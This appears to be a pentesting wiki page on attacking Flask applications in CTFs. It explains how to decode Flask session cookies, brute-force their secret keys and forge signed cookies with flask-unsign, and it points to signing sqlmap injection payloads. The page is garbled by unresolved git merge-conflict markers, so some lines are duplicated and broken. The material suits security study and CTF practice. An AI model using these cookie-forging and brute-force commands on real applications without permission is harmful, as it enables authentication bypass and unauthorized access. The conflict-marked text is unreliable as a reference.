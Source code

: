 # Flask

<<<<<<< HEAD
## Flask

**Probably if you are playing a CTF a Flask application will be related to** [**SSTI**](../../pentesting-web/ssti-server-side-template-injection/)**.**
=======
**Probably if you are playing a CTF a Flask application will be related to **[**SSTI**](../../pentesting-web/ssti-server-side-template-injection/)**.**
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

### Cookies

Default cookie session name is **`session`**.

#### Decoder

Online Flask coockies decoder: [https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

**Manual**

Get the first part of the cookie until the first point and Base64 decode it>

```bash
echo "ImhlbGxvIg" | base64 -d
```

The cookie is also signed using a password

#### **Flask-Unsign**

Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.

{% embed url="https://pypi.org/project/flask-unsign/" caption="" %}

```bash
pip3 install flask-unsign
```

**Decode Cookie**

```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```

**Brute Force**

```bash
flask-unsign --unsign --cookie < cookie.txt
```

**Signing**

```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
```

<<<<<<< HEAD
**Signing using legacy \(old versions\)**
=======
#### Signing using legacy (old versions)
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```

## &lt;&lt;&lt;&lt;&lt;&lt;&lt; HEAD

#### SQLi in Flask session cookie with SQLmap

[**This example**](../../pentesting-web/sql-injection/sqlmap/#eval) **\*\*uses sqlmap `eval` option to** automatically sign sqlmap payloads\*\* for flask using a known secret.

<<<<<<< HEAD
> > > > > > > upstream/master

=======
[**This example**](../../pentesting-web/sql-injection/sqlmap/#eval)** **uses sqlmap `eval` option to **automatically sign sqlmap payloads** for flask using a known secret.
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b
